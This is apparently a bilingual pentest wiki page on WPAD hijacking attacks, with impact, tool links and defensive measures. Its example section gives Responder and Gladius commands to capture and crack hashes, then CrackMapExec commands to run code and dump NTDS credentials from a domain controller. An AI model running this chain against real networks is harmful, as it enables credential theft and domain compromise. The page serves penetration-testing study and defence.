 # WPAD

## About

Web Proxy Auto-Discovery Protocol

http://wpad/wpad.dat as PAC file

Hijack WPAD -> Proxy Server

Insert any html tags in HTTP Response

![](<../../.gitbook/assets/изображение (7).png>)

Атаке через протокол WPAD подвержены все системы — Linux, Windows, MacOS

Основная статья: [https://www.praetorian.com/blog/broadcast-name-resolution-poisoning-wpad-attack-vector/](https://www.praetorian.com/blog/broadcast-name-resolution-poisoning-wpad-attack-vector/)

## Impact

Злоумышленник может выполнить атаку «человек посередине» (MiTM) на уязвимые системы, если они находятся в той же локальной сети, что и система-жертва (внутренняя сеть, кафе, аэропорт).

Злоумышленник может выполнить атаку MiTM через Интернет, если он сможет зарегистрировать новый gTLD, который конфликтует с внутренней схемой имен, и развернуть поддельный прокси-сервер WPAD.

## Description

Есть разные варианты атаки, однако основная идея схожа. Атакующий отвечает на запросы аутентификации by spoofing name resolution responses. \[TODO]

## Example

Tools:\
Gladius: [https://www.praetorian.com/blog/gladius-automatic-responder-cracking](https://www.praetorian.com/blog/gladius-automatic-responder-cracking)\
HobORules: [https://www.praetorian.com/blog/hob064-statistics-based-password-cracking-rules-hashcat-d3adhob0](https://www.praetorian.com/blog/hob064-statistics-based-password-cracking-rules-hashcat-d3adhob0)\
Responder: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)

Стартуем Gladius (чтобы он подхватывал хеши)

```
~/gladius# sudoo ./gladius.py --responder-ddir /home/ubuntu/Responder/logs -r hob064.rule
```

Далее запускаем Responder.

```
$ sudo responder -I eth2 -wF 
```

Далее заходим уже с полученными кредами по SMB, исполняем код, дампим ntds:

```
~/CrackMapExec# ./crackmapexec.py 10.10.10.2 -d CORP -u Administrator -p Password -x 'whoami'
~/CrackMapExec# ./crackmapexec.py 10.10.10.2 -d CORP -u Administrator -p Password --ntds drsuapi

```

Apart from getting the [NTLM hash to crack](https://zer1t0.gitlab.io/posts/attacking\_ad/#ntlm-hashes-cracking), this could be useful for [NTLM relay](https://zer1t0.gitlab.io/posts/attacking\_ad/#ntlm-relay) attacks, since the HTTP doesn't required sign in NTLM and therefore it can be used with any other protocol in NTLM cross-protocol relay attack.

Moreover, to serve the PAC file to the victim will allow you to execute some javascript code as the victim, which could be used to [exfiltrate the visited URLs](https://www.blackhat.com/docs/us-16/materials/us-16-Kotler-Crippling-HTTPS-With-Unholy-PAC.pdf).

## Защита

* Create a WPAD entry which points to the corporate proxy server or disable proxy auto-detection in Internet Explorer.
* Disable NBNS and LLMNR (test in a lab before deploying to all systems).
* Set valid DNS entries for all internal and external resources.
* Monitor the network for broadcast poisoning attacks.
* Restrict outbound 53/tcp and 445/tcp for all internal systems.
